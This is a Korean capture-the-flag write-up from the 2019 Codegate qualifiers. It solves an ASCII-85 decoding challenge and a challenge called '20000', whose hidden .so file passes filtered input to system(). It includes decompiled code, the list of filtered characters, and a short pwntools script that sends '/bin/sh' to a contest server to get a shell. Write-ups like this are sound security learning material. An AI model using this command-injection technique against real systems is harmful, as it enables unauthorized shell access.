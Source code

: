 ```yaml
---
title: 2019 Codegate Quals Writeup"
date: 2019-1-31
tags: [CTF]
categories: [CTF]
---
```


> 팀명 : 앙진헌띠

> 주니어부 23등

어쩌다 보니 본선에 가게되었다.. ㅎㅎ

###  MIC check

9P&;gFD,5.BOPCdBl7Q+@V'1dDK?qL 를 디코딩하라고 한다.

ASCII-85 디코딩 해주면 플래그가 나온다.

![](https://user-images.githubusercontent.com/32904385/51801712-cfde7180-2284-11e9-8a03-aca7a9ee978b.png)

**FLAG : Let the hacking begins ~**

<br />

### 20000

nc 와 20000이라는 바이너리와 20000개의 .so파일이 주어진다.

20000 바이너리의 메인함수이다. 메인에서 1~20000까지 입력받는데 이 입력 받은 수의 라이브러리 파일을 불러와서 test 함수를 실행시켜준다. 그리고 쉘을 따면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801713-d1a83500-2284-11e9-9466-0b858c34431d.png)

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  signed __int64 result; // rax
  void *v5; // rdi
  char *v6; // rax
  int input; // [rsp+Ch] [rbp-94h]
  void (__fastcall *v8)(void *, const char *); // [rsp+10h] [rbp-90h]
  void *handle; // [rsp+18h] [rbp-88h]
  char s; // [rsp+20h] [rbp-80h]
  int v11; // [rsp+80h] [rbp-20h]
  int v12; // [rsp+84h] [rbp-1Ch]
  unsigned __int64 v13; // [rsp+88h] [rbp-18h]

  v13 = __readfsqword(0x28u);
  print_map();
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x60uLL);
  v11 = 0;
  printf("INPUT : ", 0LL, &v12);
  __isoc99_scanf("%d", &input);
  if ( input <= 0 && input > 20000 )
  {
    printf("Invalid Input", &input);
    exit(-1);
  }
  sprintf(&s, "./20000_so/lib_%d.so", input);
  handle = dlopen(&s, 1);
  if ( handle )
  {
    v5 = handle;
    v8 = dlsym(handle, "test");
    if ( v8 )
    {
      v8(v5, "test");
      dlclose(handle);
      result = 0LL;
    }
    else
    {
      v6 = dlerror();
      fprintf(stderr, "Error: %s\n", v6);
      dlclose(handle);
      result = 1LL;
    }
  }
  else
  {
    v3 = dlerror();
    fprintf(stderr, "Error: %s\n", v3);
    result = 1LL;
  }
  return result;
}
```



하지만 문제가 20000개의 lib 파일에서 무슨 파일인지 알 수 없었다. 왜 20000개인지 알 거 같았다. 마지막 수정 일 순으로 정렬해보면 `lib_17394.so` 파일만 수정일이 오전 10시 37분이였다. 다른 .so파일들은 수정일이 오후 10시 33분이였다. 

![](https://user-images.githubusercontent.com/32904385/51801715-d53bbc00-2284-11e9-99be-09c70874a936.png)



```c
signed __int64 test()
{
  char *v0; // rax
  signed __int64 result; // rax
  char *v2; // rax
  void (__fastcall *v3)(char *, char *); // [rsp+0h] [rbp-B0h]
  void (__fastcall *v4)(char *); // [rsp+8h] [rbp-A8h]
  void *handle; // [rsp+10h] [rbp-A0h]
  void *v6; // [rsp+18h] [rbp-98h]
  char buf; // [rsp+20h] [rbp-90h]
  __int16 v8; // [rsp+50h] [rbp-60h]
  char s; // [rsp+60h] [rbp-50h]
  __int16 v10; // [rsp+90h] [rbp-20h]
  unsigned __int64 v11; // [rsp+98h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v8 = 0;
  memset(&s, 0, 0x30uLL);
  v10 = 0;
  handle = dlopen("./20000_so/lib_4323.so", 1);
  if ( handle )
  {
    v3 = dlsym(handle, "filter1");
    v6 = dlopen("./20000_so/lib_11804.so", 1);
    if ( v6 )
    {
      v4 = dlsym(v6, "filter2");
      puts("This is lib_17394 file.");
      puts("How do you find vulnerable file?");
      read(0, &buf, 0x32uLL);
      v3(&buf, &buf);
      v4(&buf);
      sprintf(&s, "%s 2 > /dev/null", &buf);
      system(&s);
      dlclose(handle);
      dlclose(v6);
      result = 0LL;
    }
    else
    {
      v2 = dlerror();
      fprintf(stderr, "Error: %s\n", v2);
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    v0 = dlerror();
    fprintf(stderr, "Error: %s\n", v0);
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

`lib_17394.so` 를 보면 `lib_4323.so` 라이브러리의 fillter1을 실행시키고 `lib_11804.so` 라이브러리의 fillter2를 실행시켜준다. 그러면 이제 fillter만 우회해서 쉘을 따주면 될 거 같다. system(&s) 를 실행시켜주니까 저기에 쉘을 넣어주면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801716-d66ce900-2284-11e9-848d-62289a7de43f.png)

Exploit Code

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *

# testlib = CDLL('./c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000_so/lib_17394.so')
"""
Filltering
; * | & $ ` > < v m p d f g l
r bash
"""
#p = process('././c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000')
p = remote('110.10.147.106',15959)
print p.sendlineafter('INPUT :','17394')
print p.sendlineafter('How do you find vulnerable file?','/bin/sh')
p.interactive()
```



![](https://user-images.githubusercontent.com/32904385/51801718-d79e1600-2284-11e9-8e04-7fdd0e9f8c27.png)

**FLAG : Are_y0u_A_h@cker_in_real-word?**

